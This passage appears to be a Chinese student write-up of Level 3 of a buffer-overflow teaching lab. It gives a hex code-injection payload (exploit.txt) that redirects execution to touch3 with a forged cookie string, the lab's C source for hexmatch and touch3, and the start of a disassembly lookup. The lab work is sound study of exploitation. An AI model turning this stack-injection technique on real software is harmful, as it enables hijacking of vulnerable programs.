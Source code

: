 `exploit.txt` 中的内容：

```text
48 c7 c7 a8 dc 61 55 68
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61
00
```

#### 3.3 解题思路

与 Level 2 类似，区别在于这次我们需要构造一个字符串，而不是直接传一个整数。需要注意字符串的保存位置。

#### 3.4 解题过程

##### 3.4.0 总览

讲义中给出了函数 `hexmatch` 和 `touch3` 的源代码：

```c
/* Compare string to hex represention of unsigned value */
int hexmatch(unsigned val, char *sval) {
    char cbuf[110];
    /* Make position of check string unpredictable */
    char *s = cbuf + random() % 100;
    sprintf(s, "%.8x", val);
    return strncmp(sval, s, 9) == 0;
}
```

```c
void touch3(char *sval) {
    vlevel = 3;       /* Part of validation protocol */
    if (hexmatch(cookie,sval)) {
        printf("Touch3!: You called touch3(\"%s\")\n", sval);
        validate(3);
    } else {
        printf("Misfire: You called touch3(\"%s\")\n", sval);
        fail(3);
    }
    exit(0);
}
```

可见需要传入表示 `cookie` 的值的字符串作为参数 `sval`。同时函数 `hexmatch` 的设计使得直接获取用于检验的字符串较为困难，因此我们需要自行构造这个字符串。

##### 3.4.1 查看函数 `touch3` 的地址

在 `ctarget.asm` 中找到函数 `touch3` 对应的汇编语句：

```asm
00000000004018fa <touch3>:
  ...
```
